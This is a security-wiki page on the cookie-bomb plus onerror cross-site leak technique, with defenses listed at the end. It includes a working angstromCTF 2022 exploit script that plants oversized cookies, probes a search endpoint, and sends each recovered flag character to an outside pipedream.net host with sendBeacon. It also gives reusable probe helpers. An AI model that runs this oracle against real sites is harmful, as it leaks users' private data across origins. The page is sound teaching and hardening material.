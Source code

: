 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

This technique combines:
- Cookie bombing: stuffing the victim’s browser with many/large cookies for the target origin so that subsequent requests hit server/request limits (request header size, URL size in redirects, etc.).
- Error-event oracle: probing a cross-origin endpoint with a <script> (or other subresource) and distinguishing states with onload vs onerror.

High level idea
- Find a target endpoint whose behavior differs for two states you want to test (e.g., search “hit” vs “miss”).
- Ensure the “hit” path will trigger a heavy redirect chain or long URL while the “miss” path stays short. Inflate request headers using many cookies so that only the “hit” path causes the server to fail with an HTTP error (e.g., 431/414/400). The error flips the onerror event and becomes an oracle for XS-Search.

When does this work
- You can cause the victim browser to send cookies to the target (e.g., cookies are SameSite=None or you can set them in a first-party context via a popup window.open).
- There is an app feature you can abuse to set arbitrary cookies (e.g., “save preference” endpoints that turn controlled input names/values into Set-Cookie) or to make post-auth redirects that incorporate attacker-controlled data into the URL.
- The server reacts differently on the two states and, with inflated headers/URL, one state crosses a limit and returns an error response that triggers onerror.

Note on server errors used as the oracle
- 431 Request Header Fields Too Large is commonly returned when cookies inflate request headers; 414 URI Too Long or a server-specific 400 may be returned for long request targets. Any of these result in a failed subresource load and fire onerror. [MDN documents 431 and typical causes like excessive cookies.]()

Practical example (angstromCTF 2022)
The following script (from a public writeup) abuses a feature that lets the attacker insert arbitrary cookies, then loads a cross-origin search endpoint as a script. When the query is correct, the server performs a redirect that, together with the cookie bloat, exceeds server limits and returns an error status, so script.onerror fires; otherwise nothing happens.

```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
  <input id="f" /><input name="search" value="a" />
</form>
<script>
  const $ = document.querySelector.bind(document)
  const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
  let i = 0
  const stuff = async (len = 3500) => {
    let name = Math.random()
    $("form").target = name
    let w = window.open("", name)
    $("#f").value = "_".repeat(len)
    $("#f").name = i++
    $("form").submit()
    await sleep(100)
  }
  const isError = async (url) => {
    return new Promise((r) => {
      let script = document.createElement("script")
      script.src = url
      script.onload = () => r(false)
      script.onerror = () => r(true)
      document.head.appendChild(script)
    })
  }
  const search = (query) => {
    return isError(
      "https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
    )
  }
  const alphabet =
    "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
  const url = "//en4u1nbmyeahu.x.pipedream.net/"
  let known = "actf{"
  window.onload = async () => {
    navigator.sendBeacon(url + "?load")
    await Promise.all([stuff(), stuff(), stuff(), stuff()])
    await stuff(1600)
    navigator.sendBeacon(url + "?go")
    while (true) {
      for (let c of alphabet) {
        let query = known + c
        if (await search(query)) {
          navigator.sendBeacon(url, query)
          known += c
          break
        }
      }
    }
  }
</script>
```

Why the popup (window.open)?
- Modern browsers increasingly block third-party cookies. Opening a top-level window to the target makes cookies first‑party so Set-Cookie responses from the target will stick, enabling the cookie-bomb step even with third‑party cookie restrictions.

2024–2025 notes on cookie availability
- Chromium-based browsers still commonly send third‑party cookies unless the user or site opts out, but Safari and Firefox block most third‑party cookies by default. Plan for both: (1) use a first‑party cookie planting flow (window.open + auto-submit to a cookie-setting endpoint) and then (2) probe with a subresource that only succeeds when those cookies are sent. If third‑party cookies are blocked, move the probe into a same-site context (e.g., run the oracle in the popup via a same-site gadget and exfiltrate the boolean with postMessage or a beacon to your server).

Generic probing helper
If you already have a way to set many cookies on the target origin (first-party), you can reuse this minimal oracle against any endpoint whose success/failure leads to different network outcomes (status/MIME/redirect):

```js
function probeError(url) {
  return new Promise((resolve) => {
    const s = document.createElement('script');
    s.src = url;
    s.onload = () => resolve(false);  // loaded successfully
    s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
    document.head.appendChild(s);
  });
}
```

Alternative tag oracle (stylesheet)
```js
function probeCSS(url) {
  return new Promise((resolve) => {
    const l = document.createElement('link');
    l.rel = 'stylesheet';
    l.href = url;
    l.onload = () => resolve(false);
    l.onerror = () => resolve(true);
    document.head.appendChild(l);
  });
}
```

Advanced: de Bruijn–based cookie packing (CTF-proven)
- When the app lets you control large cookie values, you can pack guesses efficiently by appending a de Bruijn sequence to each probe. This keeps per‑probe overhead small while ensuring the heavy branch is consistently heavier only for the right prefix. Example generator for |Σ| symbols of length n (fits in a cookie value):
```js
const ALPH = '_{}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
function deBruijn(k, n, alphabet=ALPH){
  const a = Array(k * n).fill(0), seq=[];
  (function db(t,p){
    if(t>n){ if(n%p===0) for(let j=1;j<=p;j++) seq.push(a[j]); }
    else { a[t]=a[t-p]; db(t+1,p); for(let j=a[t-p]+1;j<k;j++){ a[t]=j; db(t+1,t);} }
  })(1,1);
  return seq.map(i=>alphabet[i]).join('');
}
```
- Idea in practice: set multiple cookies whose values are prefix + deBruijn(k,n). Only when the tested prefix is correct does the server take the heavy path (e.g., extra redirect reflecting the long cookie or URL), which, combined with the cookie bloat, crosses limits and flips onerror. See a LA CTF 2024 public solver using this approach.

Tips to build the oracle
- Force the “positive” state to be heavier: chain an extra redirect only when the predicate is true, or make the redirect URL reflect unbounded user input so it grows with the guessed prefix.
- Inflate headers: repeat cookie bombing until a consistent error is observed on the “heavy” path. Servers commonly cap header size and will fail sooner when many cookies are present.
- Stabilize: fire multiple parallel cookie set operations and probe repeatedly to average out timing and caching noise.
- Bust caches and avoid pooling artifacts: add a random `#fragment` or `?r=` to probe URLs, and prefer distinct window names when using window.open loops.
- Alternate subresources: if <script> is filtered, try <link rel=stylesheet> or <img>. The onload/onerror boolean is the oracle; content never needs to be parsed.

Common header/URL limits (useful thresholds)
- Reverse proxies/CDNs and servers enforce different caps. As of October 2025, Cloudflare documents 128 KB total for request headers (and 16 KB URL) on the edge, so you may need more/larger cookies when targets sit behind it. Other stacks (e.g., Apache via LimitRequestFieldSize) are often closer to ~8 KB per header line and will hit errors earlier. Adjust bomb size accordingly. [Cloudflare docs show the 128 KB header limit.]

Related XS-Search tricks
- URL length based oracles (no cookies needed) can be combined or used instead when you can force a very long request target:

{{#ref}}
url-max-length-client-side.md
{{#endref}}

Defenses and hardening
- Make success/failure responses indistinguishable:
  - Avoid conditional redirects or large differences in response size between states. Return the same status, same content type, and similar body length regardless of state.
- Block cross-site subresource probes:
  - SameSite cookies: set sensitive cookies to SameSite=Lax or Strict so subresource requests like <script src> don’t carry them; prefer Strict for auth tokens when possible.
  - Fetch Metadata: enforce a Resource Isolation Policy to reject cross-site subresource loads (e.g., if Sec-Fetch-Site != same-origin/same-site).
  - Cross-Origin-Resource-Policy (CORP): set CORP: same-origin (or at least same-site) for endpoints not meant to be embedded as cross-origin subresources.
  - X-Content-Type-Options: nosniff and correct Content-Type on JSON/HTML endpoints to avoid load-as-script quirks.
- Reduce header/URL amplification:
  - Cap the number/size of cookies set; sanitize features that turn arbitrary form fields into Set-Cookie.
  - Normalize or truncate reflected data in redirects; avoid embedding attacker-controlled long strings in Location URLs.
  - Keep server limits consistent and fail uniformly (avoid special error pages only for one branch).

Notes
- This class of attacks is discussed broadly as “Error Events” XS-Leaks. The cookie-bomb step is just a convenient way to push only one branch over server limits, producing a reliable boolean oracle.



## References
- XS-Leaks: Error Events (onerror/onload as an oracle): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (common with many cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431
- LA CTF 2024 writeup note showing a de Bruijn cookie-bomb oracle: https://gist.github.com/arkark/5787676037003362131f30ca7c753627
- Cloudflare edge limits (URLs 16 KB, request headers 128 KB): https://developers.cloudflare.com/fundamentals/reference/connection-limits/
{{#include ../../banners/hacktricks-training.md}}